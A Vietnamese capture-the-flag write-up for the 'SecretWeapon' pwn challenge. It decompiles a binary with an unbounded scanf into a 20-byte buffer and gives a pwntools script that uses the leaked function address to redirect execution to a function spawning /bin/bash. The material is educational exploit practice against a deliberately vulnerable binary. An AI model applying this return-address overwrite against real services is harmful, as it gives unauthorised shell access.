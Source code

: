 # **SecretWeapon**

## Task
nc 61.28.237.24 30201

File: weapon

## Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup();
  townsquare();
  return 0;
}
```

```c
int townsquare()
{
  char v1[20]; // [esp+0h] [ebp-18h] BYREF

  puts("You wanna open the arsenal. Tell me the passphrase!");
  printf("Your current location is townsquare with the address %p \n", townsquare);
  return __isoc99_scanf("%s", v1);
}
```

```c
int arsenal()
{
  return run_cmd("/bin/bash");
}
```

Bài này đơn giản sẽ là overwrite địa chỉ trả về của hàm `townsquare` với địa chỉ của hàm `arsenal` để gọi bash shell

## Exploit
python code

```python
from pwn import *

binary = context.binary = ELF('./weapon')

p = process('./weapon')
#p = remote('61.28.237.24','30201')

p.recvuntil('Your current location is townsquare with the address ')

# lấy địa chỉ của hàm townsquare
add_curr = p.recvline().strip()

# chuyển string sang int
add = int(add_curr, 16)


# padding từ biến nhập vào đến địa chỉ trả về
payload = b'A'*(0x18+0x4)

# tính offset khoảng cách địa chỉ local và địa chỉ trên server từ địa chỉ townsquare vừa nhận được
offset = add - binary.sym.townsquare


# nối vào payload địa chỉ mới của hàm arsenal từ offset vừa tính
payload += p32(binary.sym.arsenal+offset)

p.sendline(payload)

p.interactive()

```

## Run scripts
vì server đã đóng nên mình tiến hành khai thác local với file flag.txt HCMUSCTF{SecretWeapon}

![image](https://user-images.githubusercontent.com/31529599/120056671-06e90b80-c068-11eb-84ba-cd7154137998.png)

Xong !

